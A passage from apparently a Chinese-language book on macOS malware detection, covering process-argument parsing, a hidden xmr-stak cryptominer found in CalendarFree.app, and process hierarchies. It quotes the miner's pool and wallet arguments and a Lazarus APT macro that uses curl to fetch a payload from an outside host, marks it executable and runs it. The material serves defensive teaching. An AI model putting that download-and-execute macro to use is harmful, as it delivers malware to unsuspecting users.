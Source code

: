 ```
```

示例 1-9：解析进程参数

代码首先提取参数的数量（位于参数缓冲区的开始位置）❶。然后跳过这个值❷、路径的字节❸以及任何后续的 NULL 字节❹。现在，解析器指针指向实际参数（argv）的起始位置，代码将逐一提取这些参数❺。值得注意的是，除非进程偷偷修改了自身，argv[0]始终是程序路径。

如果我们执行*enumerateProcesses*项目，当遇到前述的 xmr-stak 进程（此处显示其进程 ID 为 14026）时，它应该显示以下信息。如果一个毫无察觉的用户启动了*CalendarFree.app*，该进程会偷偷进行加密货币挖矿：

```
% **./enumerateProcesses**
...
(14026):/Applications/CalendarFree.app/Contents/Frameworks/
Coinstash_XMRSTAK.framework/Resources/xmr-stak
...
arguments: (
"/Applications/CalendarFree.app/Contents/Frameworks/Coinstash_XMRSTAK.
framework/Resources/xmr-stak",
"--currency",
"monero",
"-o",
"pool.graft.hashvault.pro:3333",
"-u",
"G81Jc3KHStAWJjjBGzZKCvEnwCeRZrHkrUKji9NSDLtJ6Evhhj43DYP7dMrYczz5KYjfw
6ophndAuBKuipjpFiizVVYzeAJ",
"-p",
"qbix:greg@qbix.com",
...
) 
```

进程启动时带有如此大量的参数是相当不寻常的。此外，这些参数明显暗示该进程是一个加密货币矿工。我们可以通过以下事实进一步加强这个结论：其父进程*CalendarFree.app*消耗了大量的 CPU 资源，稍后你将在本章看到这一点。

### 进程层级

*进程层级*是进程之间的关系（例如，父进程与子进程之间）。在检测恶意软件时，你需要准确地表示这些关系，原因有几个。首先，进程层级可以帮助你检测初始感染。进程层级还可以揭示那些难以检测的恶意软件，它们以不正当的方式利用系统二进制文件。

让我们看一个例子。2019 年，Lazarus 高级持续威胁（APT）组织被发现利用含有宏的 Office 文档攻击 macOS 用户。如果用户打开该文档并允许宏运行，代码将下载并执行名为 Yort 的恶意软件。以下是该攻击中使用的宏的代码片段：

```
sur = "https://nzssdm.com/assets/mt.dat"
spath = "/tmp/": i = 0

Do
    spath = spath & Chr(Int(Rnd * 26) + 97)
    i = i + 1
Loop Until i > 12
spath = spath

❶ res = system("curl -o " & spath & " " & sur)
❷ res = system("chmod +x " & spath)
❸ res = popen(spath, "r") 
```
